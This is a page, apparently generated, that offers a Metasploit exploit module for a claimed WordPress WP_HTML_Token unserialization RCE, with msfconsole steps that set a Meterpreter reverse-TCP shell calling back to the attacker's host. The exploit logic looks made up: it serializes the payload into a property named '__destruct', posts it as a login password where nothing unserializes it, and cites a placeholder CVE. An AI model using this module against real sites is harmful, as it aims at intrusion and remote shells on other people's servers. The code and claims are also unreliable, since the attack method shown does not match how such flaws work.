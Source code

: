 To create a Metasploit module that exploits the RCE vulnerability in WordPress via the unserialization of instances of the `WP_HTML_Token` class, we'll focus on crafting a payload that triggers the unserialization flaw, leading to arbitrary code execution.

### Metasploit Module

Save the following code as `wordpress_wp_html_token_rce.rb` in the `modules/exploits/multi/http` directory of your Metasploit Framework installation.

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'WordPress WP_HTML_Token Unserialization RCE',
      'Description'    => %q{
        This module exploits a remote code execution vulnerability in WordPress via
        the unserialization of instances of the `WP_HTML_Token` class. This allows for
        code execution via its `__destruct()` magic method.
      },
      'Author'         =>
        [
          'Your Name'  # OneArch
        ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2024-XXXX'],  # Replace with the correct CVE number
          ['URL', 'https://example.com/advisory']  # Replace with an advisory link if available
        ],
      'DisclosureDate' => 'Aug 03 2024',
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Targets'        => [
        ['WordPress <= 5.x', { }]
      ],
      'DefaultTarget'  => 0,
      'Privileged'     => false,
      'Payload'        =>
        {
          'BadChars' => "\x00",
        }
    ))

    register_options(
      [
        OptString.new('TARGETURI', [true, "The base path to the WordPress installation", '/']),
      ])
  end

  def check
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path, 'wp-login.php'),
    })

    if res && res.code == 200 && res.body.include?('wp-login.php')
      return Exploit::CheckCode::Appears
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Sending payload to trigger unserialization vulnerability")

    serialized_payload = 'O:13:"WP_HTML_Token":1:{s:13:"__destruct";s:' + payload.encoded.length.to_s + ':"' + payload.encoded + '";}'

    post_data = {
      'user_login' => Rex::Text.rand_text_alphanumeric(8..12),
      'user_pass'  => serialized_payload,
      'wp-submit'  => 'Log In',
      'redirect_to' => normalize_uri(target_uri.path, 'wp-admin/'),
      'testcookie' => 1
    }

    send_request_cgi({
      'method'  => 'POST',
      'uri'     => normalize_uri(target_uri.path, 'wp-login.php'),
      'vars_post' => post_data
    })

    handler
  end
end
```

### Usage Instructions

1. **Save the Module**:
   Save the module as `wordpress_wp_html_token_rce.rb` in the `modules/exploits/multi/http` directory of your Metasploit Framework installation.

   ```bash
   /path/to/metasploit-framework/modules/exploits/multi/http/wordpress_wp_html_token_rce.rb
   ```

2. **Load Metasploit**:
   Start Metasploit Framework by opening a terminal and running:

   ```bash
   msfconsole
   ```

3. **Use the New Module**:
   In the Metasploit console, load the new exploit module using the following command:

   ```bash
   use exploit/multi/http/wordpress_wp_html_token_rce
   ```

4. **Configure and Run**:
   Set the necessary options, such as `RHOSTS`, `RPORT`, `TARGETURI`, and `PAYLOAD`. Then run the module.

   ```bash
   msf6 > use exploit/multi/http/wordpress_wp_html_token_rce
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > set RHOSTS target_ip
   RHOSTS => target_ip
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > set TARGETURI /
   TARGETURI => /
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > set PAYLOAD php/meterpreter/reverse_tcp
   PAYLOAD => php/meterpreter/reverse_tcp
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > set LHOST your_ip
   LHOST => your_ip
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > set LPORT 4444
   LPORT => 4444
   msf6 exploit(multi/http/wordpress_wp_html_token_rce) > run
   ```

### Important Considerations

- Ensure you have the appropriate permissions before testing or exploiting any systems.
- This module is designed for educational and testing purposes. Always test in a safe and controlled environment before using it on any production systems.

This Metasploit module sends a crafted serialized payload to a vulnerable WordPress instance, attempting to trigger the unserialization vulnerability and achieve arbitrary code execution. Adjust the payload and module as necessary based on the specific nature of the vulnerability and the target environment.
